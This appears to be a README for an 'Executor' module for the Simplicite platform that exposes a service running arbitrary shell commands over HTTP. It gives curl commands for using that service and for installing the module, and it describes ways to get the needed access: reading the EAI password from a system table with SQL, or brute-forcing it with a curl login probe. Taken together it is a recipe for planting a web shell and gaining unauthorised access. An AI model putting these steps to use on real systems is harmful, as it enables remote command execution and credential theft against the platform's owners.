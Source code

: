 <!--
 ___ _            _ _    _ _    __
/ __(_)_ __  _ __| (_)__(_) |_ /_/
\__ \ | '  \| '_ \ | / _| |  _/ -_)
|___/_|_|_|_| .__/_|_\__|_|\__\___|
            |_| 
-->
![](https://docs.simplicite.io//logos/logo250.png)
* * *

`Executor` module definition
============================

Usage
====================

```
curl -F "command=pwd" $URL/ext/ExeService
```

How to install
====================

Options:
- add XML to a codebase that will be imported
- gain designer rights on the app
- get EAI pwd 

Getting EAI password
---------------------------
### SQL Access

```
select sys_value from m_system where sys_code like 'EAI%'
```

### Brute force
eai password = 20 char long hex number => C(16,20) ~ 3,2 billion options
Following line should return "OK" instead of "Authentication error: Authentication failure for user designer"

```
curl -u designer:00000000000000000000 --form service=clearcache <URL>/io
```

### Curl install

```
curl -u designer:$EAI -F service=xmlimport -F file=@Executor.xml $URL/io
curl -u designer:$EAI --form service=clearcache $URL/io
```

`ExeService` external object definition
---------------------------------------




